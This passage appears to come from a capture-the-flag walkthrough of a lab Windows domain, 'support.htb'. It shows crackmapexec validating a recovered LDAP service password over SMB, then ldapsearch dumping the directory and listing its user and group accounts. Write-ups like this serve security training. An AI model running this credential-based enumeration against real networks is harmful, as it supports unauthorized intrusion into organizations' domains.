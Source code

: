 ```console
└─╼$ crackmapexec smb support.htb -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
SMB         support.htb     445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
SMB         support.htb     445    DC               [+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

### LDAP Enumeration

> LDAPSearch: [here](https://docs.ldap.com/ldap-sdk/docs/tool-usages/ldapsearch.html)

```console
└─╼$ ldapsearch -H ldap://support.htb -x -D "ldap@support.htb" -b "DC=SUPPORT,DC=HTB" -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' | tee ldapsearch.out
----------------------------------------------------------------------------------
└─╼$ cat ldapsearch.out | grep -E "# .* Users, support.htb"
# Administrator, Users, support.htb
# Guest, Users, support.htb
# krbtgt, Users, support.htb
# Domain Computers, Users, support.htb
# Domain Controllers, Users, support.htb
# Schema Admins, Users, support.htb
# Enterprise Admins, Users, support.htb
# Cert Publishers, Users, support.htb
# Domain Admins, Users, support.htb
# Domain Users, Users, support.htb
# Domain Guests, Users, support.htb
# Group Policy Creator Owners, Users, support.htb
# RAS and IAS Servers, Users, support.htb
# Allowed RODC Password Replication Group, Users, support.htb
# Denied RODC Password Replication Group, Users, support.htb
# Read-only Domain Controllers, Users, support.htb
# Enterprise Read-only Domain Controllers, Users, support.htb
# Cloneable Domain Controllers, Users, support.htb
# Protected Users, Users, support.htb
# Key Admins, Users, support.htb
# Enterprise Key Admins, Users, support.htb
# DnsAdmins, Users, support.htb
# DnsUpdateProxy, Users, support.htb
# Shared Support Accounts, Users, support.htb
# ldap, Users, support.htb
# support, Users, support.htb
# smith.rosario, Users, support.htb
# hernandez.stanley, Users, support.htb
# wilson.shelby, Users, support.htb
# anderson.damian, Users, support.htb
# thomas.raphael, Users, support.htb
# levine.leopoldo, Users, support.htb
# raven.clifton, Users, support.htb
# bardot.mary, Users, support.htb
# cromwell.gerard, Users, support.htb
# monroe.david, Users, support.htb
# west.laura, Users, support.htb
# langley.lucy, Users, support.htb
# daughtler.mabel, Users, support.htb
# stoll.rachelle, Users, support.htb
# ford.victoria, Users, support.htb
```
